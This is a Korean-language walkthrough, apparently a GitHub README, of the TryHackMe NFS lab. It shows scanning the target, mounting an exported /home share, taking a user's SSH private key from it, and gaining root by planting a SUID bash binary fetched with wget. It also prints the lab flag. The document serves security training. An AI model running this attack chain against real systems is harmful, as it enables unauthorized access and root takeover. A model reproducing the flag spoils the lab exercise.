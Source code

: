# TryHackMe - Network Services 2 (NFS)

> 본 실습은 TryHackMe 플랫폼의 Network Services 2 실습 중 NFS(Network File System)를 대상으로 하여 정보 수집, 취약점 분석, SSH 접근, 권한 상승 과정을 수행한 결과입니다.

---

## 1. 실습 개요

- **타깃 머신 IP**: `10.10.155.201`
- **공격 머신 환경**: Kali Linux 2023.4
- **실습 일자**: 2025-04-15
- **사용 도구**:
  - `nmap`: 포트 및 서비스 정보 수집
  - `showmount`: NFS 공유 디렉토리 확인
  - `mount`: NFS 공유 디렉토리 마운트
  - `chmod`: 파일 권한 설정
  - `wget`: bash 바이너리 다운로드
  - `ssh`: 시스템 로그인 및 루트 권한 획득

---

## 2. 정보 수집

### 2.1 nmap 포트 스캔

```bash
nmap -A -vv -T4 -p- 10.10.155.201 -oN nmap_scan.txt
```

- 결과 요약:

| 포트 | 서비스 | 설명 |
|------|--------|------|
| 22/tcp | ssh | SSH 서비스 (OpenSSH 7.6p1) |
| 111/tcp | rpcbind | RPC 서비스 |
| 2049/tcp | nfs_acl | NFS 파일 공유 서비스 |
| 34721/tcp, 48035/tcp, 57911/tcp | mountd | NFS 마운트 관련 데몬 |
| 32923/tcp | nlockmgr | 파일 잠금 서비스 |

- 상세 스캔 결과: [nmap_scan.txt](./nmap_scan.txt) 파일 참조

![nmap 포트 스캔 grep 결과](./screenshots/nmap_scan_grep.png)

---

## 3. 실습 과정

### 3.1 NFS 공유 디렉토리 마운트

- 설명: NFS 공유 디렉토리를 로컬 시스템의 /tmp/mount 경로에 마운트하여 내부 파일을 열람할 수 있도록 했습니다. -nolock은 잠금 기능을 비활성화하여 호환성을 높입니다.
```bash
mkdir /tmp/mount
mount -t nfs 10.10.155.201:/home /tmp/mount -nolock
```

![NFS 디렉토리 마운트](./screenshots/mount_shared_directory.png)

---

### 3.2 NFS 공유 디렉토리에서 SSH 개인 키 획득

- 공유 디렉토리 내 `/home/cappucino/.ssh/id_rsa` 발견

- 개인 키 내용: [id_rsa.txt](./id_rsa.txt) 파일 참조

![SSH 개인 키 파일 발견](./screenshots/found_ssh_key.png)

---

### 3.3 SSH 접속

- 설명: 마운트된 NFS 디렉토리에서 획득한 개인 키(id_rsa)를 이용해 타깃 머신에 SSH로 접속하였습니다. chmod 600은 키 파일 권한을 설정해 SSH 클라이언트에서 거부되지 않도록 합니다.
```bash
chmod 600 id_rsa
ssh -i id_rsa cappucino@10.10.155.201
```

![SSH 로그인 성공](./screenshots/ssh_login_success.png)

---

### 3.4 Kali 터미널에서 루트 쉘을 위한 바이너리 준비

- 설명: 타겟 머신과 동일한 환경에서 동작하는 bash 바이너리를 다운로드하여 업로드할 준비를 했습니다. 이후 SUID 권한을 부여하여 루트 쉘을 획득하기 위한 전처리 단계입니다.
```bash
wget https://raw.githubusercontent.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

![bash 바이너리 다운로드](./screenshots/download_bash_binary.png)

---

### 3.5 공유 디렉토리에 bash 복사 후 SUID 권한 부여

- 설명: 공유된 디렉토리에 bash 파일을 복사한 뒤, chmod +x로 실행 권한을 준 후, chmod +s로 SUID 비트를 설정하여 해당 파일을 실행할 때 소유자(root)의 권한으로 실행되도록 구성했습니다.
```bash
cp bash /tmp/mount/bash
cd /tmp/mount
chmod +s bash
chmod +x bash
```

![SUID bash 설정](./screenshots/set_suid_bash.png)

---

### 3.6 SSH 쉘에서 bash 실행 → 루트 권한 획득

- 설명: SUID가 설정된 bash 바이너리를 실행하면서 -p 옵션을 주어 현재 파일 소유자의 권한(root)으로 쉘을 실행했습니다. 이를 통해 루트 권한 획득에 성공했습니다.
```bash
cd /home
./bash -p
```

- 획득한 플래그: THM{nfs_got_pwned}

![bash 실행 및 루트 획득](./screenshots/execute_suid_bash.png)

---

## 4. 배운 점

- NFS 서비스는 잘못 설정될 경우, 외부 사용자에게 심각한 권한을 부여할 수 있다.
- `root_squash` 설정이 비활성화된 경우, 업로드한 파일에 root 권한을 부여할 수 있다.
- NFS 공유된 디렉토리 접근을 통해 `ssh` 키를 획득 후 타겟 사용자로 로그인할 수 있다.
- SUID 비트가 설정된 bash 파일을 실행하여 root 권한 획득이 가능하다.



